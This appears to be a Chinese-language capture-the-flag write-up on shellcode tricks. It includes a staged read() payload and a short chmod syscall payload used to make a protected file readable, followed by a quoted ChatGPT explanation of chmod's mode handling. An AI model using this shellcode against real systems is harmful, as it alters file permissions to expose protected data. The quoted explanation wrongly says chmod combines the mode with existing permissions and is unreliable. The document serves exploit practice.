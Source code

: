 ```shell
────────────────────────────────── trace ────────────────────────────────────────────────
[#0] 0x55c16ef2c7c1 → main()
─────────────────────────────────────────────────────────────────────────────────────────
gef➤ 
```
## bypass：利用 read 读入更长的 shellcode
```python
sh = asm('''
	push rax
    pop rdi
    push rdx
    pop rsi
	syscall
''')    # 由于rdx作为地址，必然很大，因此可以直接作为read的字节数。仅需要将rsi也设置为该地址，rdi取0
p1 = asm('''
nop
nop
nop
nop
nop
nop
''')
 # 上面sh使用了6字节，由于再次read输入会从初始位置开始【上面设置了rsi = old_rdx】，
#                而rip在 +6 bytes地方，因此需要nop占位

p1 += asm('''
push 0x41
mov rdi,rsp
push 4
pop rsi
mov rax,0x5a      
syscall
''')
```
## Tips： 将当前 rcx 复制给 rdi，直接调用 chmod
```python
mov rdi,rcx
mov al,90	/* sys_chmod */
syscall

# 该shellcode长度为 7 bytes，不能bypass本level，仅提供一种新的缩短shellcode思路。
# 限制：rsi寄存器的值末N位转八进制需要具有读取权限（如：0o4）

```
> chatgpt 解释参考：
> 如果在 `chmod` 调用中，`rsi` 寄存器的值是 `0x2c988004`，但权限显示为 `0o4`（即只读权限），这可能是因为以下原因：
> 1. **掩码的有效权限位**：在许多文件系统中，权限掩码是用来设置文件的权限，而不是直接覆盖。虽然 `0x2c988004` 是一个较大的值，但文件系统会根据实际文件的当前权限和提供的掩码进行合成。如果掩码中的某些位被忽略或文件系统将其限制在某些范围内，最终应用的权限可能是 `0o4`。
> 2. **掩码与权限组合**：在许多实现中，`chmod` 会对给定的权限掩码与文件当前的权限进行逻辑运算。比如，`chmod` 可能将新权限掩码与文件的现有权限进行“按位与”操作，而不是简单地将新权限掩码完全替代现有权限。因此，如果 `0x2c988004` 中的高位不会影响权限，实际的文件权限可能只反映了 `0o4`。
> 3. **权限限制**：文件系统和操作系统可能对权限有额外的限制或处理。比如，某些系统可能会对超出标准权限范围的位进行裁剪或忽略，从而只保留了有效的权限位。
> 4. **应用程序逻辑**：在一些特殊的环境中，可能有自定义逻辑或限制，导致权限的解释或应用与预期不同。这可能是因为安全策略或系统配置。
> 
**总结**： 尽管 `0x2c988004` 是一个大的权限掩码值，但在实际应用中，`chmod` 可能根据文件系统的实现和当前权限，只有掩码中的有效部分被实际应用。系统可能会根据实际的文件权限和掩码计算结果，最终只显示出 `0o4` 权限。这种行为的具体细节可以依赖于文件系统、操作系统版本和具体实现。
